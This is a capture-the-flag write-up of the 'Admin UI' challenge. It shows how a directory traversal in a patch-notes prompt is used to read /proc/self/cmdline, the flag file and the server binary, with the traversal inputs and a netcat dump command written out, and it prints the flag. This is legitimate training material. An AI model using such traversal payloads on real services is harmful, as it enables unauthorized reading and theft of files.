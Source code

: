 **Challenge: Admin UI**

Another PWN-RE!

As challenge says, we use netcat to connect:

>$ nc -v mngmnt-iface.ctfcompetition.com 1337

When we connect we are presented with some options...

> === Management Interface ===<br/>
> 1) Service access<br/>
> 2) Read EULA/patch notes<br/>
> 3) Quit<br/>
> <br/>

We also get a prompt. So lets play and see whats up. If we press 1 we are asked for a password. Try some :) 

> Please enter the backdoo^Wservice password:<br/>
> password<br/>
> Incorrect, the authorities have been informed!<br/>

Well, better watch that VPN :) If we select 2 things get weird quickly. We are also presented with a choice but it isnt a Menu like
before and you still have some input...

> The following patchnotes were found:<br/>
>  - Version0.3<br/>
>  - Version0.2<br/>
> Which patchnotes should be shown?<br/>

So we are asked to TYPE the version of the patchnotes. Hmm.. Lets try to type Version0.3. We get some random message that it got rolled
back to Version0.2 and if we read that patchnotes we see they fixed a "traversal bug". Nice.

Lets see what we can find via directory traversal attack:

> Which patchnotes should be shown?<br/>
> ./Version0.3<br/>
> #Version 0.3<br/>

Clear as day. It is as you ran the program. So we have a full directory traversal at our disposal. We need or orientate.

Path travrsal in linux is like this ../../ so you basically go to the top or anywhere. But reaching the top directories is great 
because then we have access to things like proc which we can use to get a lot of information. After playing around a bit and counting,
I got:

> Which patchnotes should be shown?<br/>
> ../../../../../../../../../../../proc/self/cmdline<br/>
> ./main=== Management Interface ===<br/>

Woah, "./main"! Bingo. That is our binary. So flag must be here somewhere but we can also get the binary via netcat.
Lets first try to find the flag. If we assume it is in the same directory as the "main" binary, we can just do:

> Which patchnotes should be shown?<br/>
> ../flag<br/>
> CTF{I_luv_buggy_sOFtware}=== Management Interface ===<br/>
>  1) Service access<br/>
>  2) Read EULA/patch notes<br/>
>  3) Quit<br/>

And here if our flag!

Now, lets dump the binary. We might need it. We will also use Netcat. We will just use it like this: First echo the 2 command to enter
the patchnotes and then pipe the main binary into netcat and dump it as main.

> $ echo -e "2\n../main" | nc -v mngmnt-iface.ctfcompetition.com 1337 > main<br/>
> DNS fwd/rev mismatch: mngmnt-iface.ctfcompetition.com != 31.49.195.35.bc.googleusercontent.com<br/>
> mngmnt-iface.ctfcompetition.com [35.195.49.31] 1337 (?) open<br/>
> <br/>

You will still be on the server but after 5sec or so since binary is small you can CtrlZ to exit and you will see the dumped main
binary in your folder. But since we used traversal and the menu from the server, we will need to clean up the binary a bit.
Open it in HEX editor and you will see the garbage. Search where ELF header begins, it is close.
To make it easier, from the start you need to remove 182 bytes up to 7F 45 4C 46.  Then just save the binary.


